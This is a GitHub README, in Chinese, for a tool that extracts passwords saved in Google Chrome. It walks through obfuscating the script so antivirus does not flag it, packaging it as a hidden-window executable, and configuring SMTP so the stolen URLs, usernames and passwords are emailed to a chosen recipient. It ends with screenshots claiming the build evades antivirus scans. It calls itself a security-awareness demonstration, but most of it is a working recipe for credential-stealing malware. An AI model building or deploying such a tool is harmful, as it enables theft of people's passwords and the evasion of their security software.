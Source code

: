 [中文](./README.md) | [English](./README_EN.md)

# InfoSec GoogleChrome

## 1 说明

本仓库的源码是基于[ohyicong](https://github.com/ohyicong/decrypt-chrome-passwords)进行的修改，主要用于演示打包一个杀毒软件无法察觉的程序，窃取用户在google上保存的密码。提示大家对信息安全的注意，和用google浏览器保存密码非常不安全的认识。

## 2 使用

### 2.1 环境
* windows
* python3
* 克隆项目到本地
    ```bash
    git clone https://github.com/lissettecarlr/InfoSec-GoogleChrome.git
    cd InfoSec-GoogleChrome
    ```
* 安装依赖
    ```bash
    pip install -r requirements.txt
    ```
* 混淆器
    ```bash
    git clone https://github.com/PyObfx/PyObfx.git
    cd PyObfx
    pip install -r requirements.txt
    cd ..
    ```

### 2.2 配置

* 新建secret.yaml文件，填写邮箱信息（为了将获得的数据通过邮件发送）：
    ```yaml
        email:
            host : '邮箱服务器地址，例如：smtp.163.com'
            user : 'xxx'
            pass : '如果是163邮箱，则在网页版的设置中开启IMAP/SMTP服务后获得' 
            sender : '发送的邮箱'  
            receivers : '接收的邮箱（可以和发送邮箱相同）' 
    ```    
* 修改config文件，配置是否发送邮件，是否保存到本地的json文件
    ```yaml
        include : secret.yaml

        output:
        json: 'ON'
        email: 'ON'
    ``

### 2.3 打包    
* 对代码进行混淆
    ```bash
    python ./PyObfx/PyObfx.py decrypt_chrome_passwords.py
    ```

* 修改（混淆器漏掉的）
    ```python
    # 混淆后漏掉的示例，由于混淆不同所有下列知识对比参考。yaml没有混淆
    oYRvAuKk = mQaPXiYD.load(DA, Loader=yaml.Loader)
    # 根据你yaml的别名修改，如下
    import yaml as mQaPXiYD
    oYRvAuKk = mQaPXiYD.load(DA, Loader=mQaPXiYD.Loader)
    ```

* 打包成exe，在dist目录下生成exe文件
    ```bash
    pyinstaller -F --add-data "config.yaml;." --add-data "secret.yaml;." .\decrypt_chrome_passwords_obfx.py --noconsole
    ```

### 2.4 结果

如果打开了config中的json和email，那么在执行exe时会在当前目录生成output.json。
```json
[
    {
        "url": "http://192.168.2.1/cgi-bin/luci/",
        "username": "root",
        "p": "testtest"
    }
]
```

然后邮箱收到邮件：

![邮件](./file/1.png)

上列条目数是根据你自己在google浏览器中保存的密码条目决定的,我这里是临时添加了一条，所有只有一条。


## 3 杀毒

* 火绒安全
    ![火绒](./file/2.gif)

* 顺便找的个在线查毒
    ![查毒](./file/3.png)

